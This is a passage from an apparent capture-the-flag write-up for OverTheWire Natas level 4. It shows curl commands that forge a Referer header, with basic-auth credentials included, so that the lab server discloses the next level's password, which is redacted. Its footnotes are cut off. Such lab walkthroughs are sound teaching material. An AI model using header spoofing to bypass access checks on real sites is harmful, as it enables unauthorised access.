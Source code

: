Paste the command into the terminal or a text editor and it should look
something like this.

```
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Authorization: Basic [REDACTED]' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  --insecure
```

Each argument to the `-H` flag is an HTTP header. Now, just add an argument for
the Referer header with the correct value as mentioned in the message on the
home page.

```hl_lines=8
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Authorization: Basic [REDACTED]' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
  --insecure
```

Be sure to keep the original `Authorization` header from your own HTTP request.
It's required to handle the [Basic
authentication](https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication#the_general_http_authentication_framework)
that was previously handled by the browser.

Alternatively you can provide the credentials with the `-u` flag like so.
Replacing `REDACTED` with the level 4 password you used to access this level.

```hl_lines=2
curl -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
     -u natas4:REDACTED \
     http://natas4.natas.labs.overthewire.org
```

The `curl` response should contain the following body with the password to the
next level.

```html, hl_lines=15, linenostart=20
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is [REDACTED]
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
```


[^1]: See my writeups for the OverTheWire [Bandit](/articles/overthewirebandit) and
[^2]: A relatively high-profile example of this sort of data disclosure
[^3]: Not __every__ request made by a browser is strictly over HTTP or HTTPS,
[^4]: Yes the correct spelling should be "Referrer", however the header